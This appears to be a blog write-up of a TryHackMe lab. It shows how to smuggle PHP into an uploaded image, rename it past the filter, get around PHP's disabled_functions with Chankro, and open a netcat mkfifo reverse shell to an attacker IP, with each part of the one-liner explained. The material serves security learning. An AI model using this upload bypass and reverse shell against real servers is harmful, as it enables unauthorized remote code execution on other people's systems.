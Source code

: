 ```yaml
---
title: 'TryHackMe - Bypass Disable Functions'
description: "How to get around PHP disabled_functions utilizing Local File Injection (LFI) and a bit on named pipes and reverse shells."
author: 'Tim Sonner'
date: '2023-09-26'
hero: '/thm-bdf/thm-bdf-hero.jpg'
published: true
---
```

![](/thm-bdf/thm-bdf-hero.jpg)

> Picture of an European common cat using Tamron AF 70-300mm F4-5.6 Di LD Macro 1:2 lens
> Date 	18 December 2010
> Source 	Own work
> Author 	Florinux  
> http://www.wikimapia.org/#lat=44.647834&lon=7.6567841&z=14&l=4&m=b  


# THM - Bypass Disable Functions  
https://tryhackme.com/room/bypassdisablefunctions  

## First spin up the target machine and navigate to the upload CV page  

We're going to upload an image with a PHP payload. Its benign and will help us gain info about the target system. I searched the interweb for a cat image, I saved it with the .jpg extension.  

## Generate phpinfo() payload using exiftool to inject PHP into an image's Meta Data  
```  
exiftool -Comment='<?php phpinfo(); ?>' ./street-cat.jpg  
```  

## Browse for the image file using the CV upload form. Before submitting, make sure you have Burp Suite setup to intercept requests to the target. Toggle Intercept On and submit the image.  

![](/thm-bdf/thm-bdf-upload.png)

## Modify teh POST request to change image file extension from .jpg to .php  
![](/thm-bdf/thm-bdf-burp.png)

## Navigate to /uploads/street-cat.php in the browser. We are presented with phpinfo()  
![](/thm-bdf/thm-bdf-phpinfo.png)  

Take a look at the disabled_functions and DOCUMENT_ROOT envir0nment variables. The disabled_functions var tells us we can't use many of the classic PHP payload functions. We must resort to using other means. 

## Download and install Chankro  
https://github.com/TarlogicSecurity/Chankro/tree/master

## Generate bash payload (c.sh) using your favorite flavor of text editor or echo. Filepath should point to CONTEXT_DOCUMENT_ROOT
```bash  
#! /bin/bash
find / flag*.txt > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/flag-location.txt  
#cat /path/to/flag/flag.txt > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/flag.txt
```  

## Ex3cute chankro command using CONTEXT_DOCUMENT_ROOT value as an argument to generate a .php file  
```  
python2 chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/  
```  
## Add the magic gif word (GIF87a) to the top of the php file. 1 is line number, i is insert  
```  
sed -i '1iGIF87a' tryhackme.php
```  
## Rename the .php file extension to .jpg  
```  
mv tryhackme.php tryhackme.jpg
```  
## Upload the image file and use BurpSuite to rename the extension .php  
![](/thm-bdf/thm-bdf-burp-2.png)

## Navigate to /uploads/tryhackme.php  

Try a few payloads... Once the flag is captured, we need to spin up a reverse shell for the sake of learning.  

## Generate a reverse shell payload  
https://revshells.com  
The nc mkfifo payload is very nice.  Change the IP to your attacker machine IP. Run 'ip addr' and look for tun0 or tun1

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```  
## Tangent about Reverse Shells and Named Pipes  

Here’s how it works:

1. **```rm /tmp/f;```** Deletes the file named “f” in the “/tmp” directory if it exists.
2. **```mkfifo /tmp/f;```** Creates a named pipe (FIFO) named “f” in the “/tmp” directory. This pipe acts as a stack for data between processes (First In First Out).
3. **```cat /tmp/f|```** Reads from the named pipe “f.” It effectively listens for any data written into the pipe and sends any data it reads to the standard input (stdin) of the interactive shell.
4. **```sh -i 2>&1|```** Starts an interactive shell (“sh”) and redirects stderr to the same address stdout is using. 2 represents standard error, 1 represents standard output. Redirect to address.
5. **```nc 10.10.10.10 9001```** Initiates a network connection to IP address 10.10.10.10 on port 9001.
6. **```>/tmp/f```** Redirects the standard output of the entire command (including the output from the interactive shell and the output from “nc”) to the named pipe “f” which is then read by **```cat```**.

## Setup the netcat listener on localhost    
```  
nc -lvnp 9001
```  

## Touch off /uploads/tryhackme.php using curl or the browser  
```  
curl https://x.x.x.x/uploads/tryhackme.php
``` 

## Success. Our payload is executed and we receive a connection.  
![](/thm-bdf/thm-bdf-nc-mkfifo-shell.png)  

I tried a few variations of the reverse shell before settling on the **```nc mkinfo```** method. Some results of my testing show us the nature of what Chankro is doing behind the scenes. We obviously called the mail() PHP function to get our c.php to run. Kindof ingenious. The output I received was from the mail function. **```mail("a", "a", "a", "a");```** 

## Bind shell  
![](/thm-bdf/thm-bdf-bind-shell.png)  

## Reverse Shell  
![](/thm-bdf/thm-bdf-rev-shell.png)  

## Links I found along the way...  
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass  

https://www.positioniseverything.net/php-shell_exec/  

https://www.tarlogic.com/blog/bypass-disable_functions-open_basedir/  

https://shahjerry33.medium.com/remote-code-execution-via-exif-data-im-dangerous-43557d7f3e7a  

https://marketsplash.com/tutorials/php/php-reverse-shell/  

https://github.com/pentestmonkey/php-reverse-shell  

https://www.geeksforgeeks.org/uploading-a-reverse-shell-to-a-web-server-in-kali-linux/  

https://highon.coffee/blog/reverse-shell-cheat-sheet/  

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  

https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-juniper-firewalls/